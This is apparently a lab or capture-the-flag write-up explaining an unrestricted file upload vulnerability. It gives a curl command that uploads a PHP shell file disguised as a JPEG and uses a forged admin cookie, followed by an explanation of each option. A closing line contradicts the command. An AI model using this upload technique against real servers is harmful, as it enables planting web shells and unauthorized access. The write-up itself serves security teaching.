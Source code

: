 ## 🎯 Vulnerability: Unrestricted File Upload

This vulnerability occurs when a web application allows users to upload files without properly validating their type or content. In this case, the server only checks the file extension or the `Content-Type` header, allowing us to upload a file that looks like an image but actually contains PHP code.

### 🛠 What We Did

We used the following `curl` command to upload a malicious PHP file while pretending it is an image:

```bash
curl -X POST http://172.16.42.128/?page=upload \
  -H "Cookie: I_am_admin=68934a3e9455fa72420237eb05902327" \
  -F "uploaded=@shell.php;type=image/jpeg" \
  -F "Upload=Upload"
```

### Option	Description
```
-X  POST	Sends a POST request, which is typically used for form submissions.
-H	Adds a custom HTTP header. We use it to send an admin cookie (I_am_admin) to bypass access restrictions.
-F	Sends form data as multipart/form-data. We attach the file and spoof the MIME type as image/jpeg.
    Upload=Upload	Mimics the submit button name; required by some forms to process the upload.
```

There is no need to add cookies or shell code for this scenario.
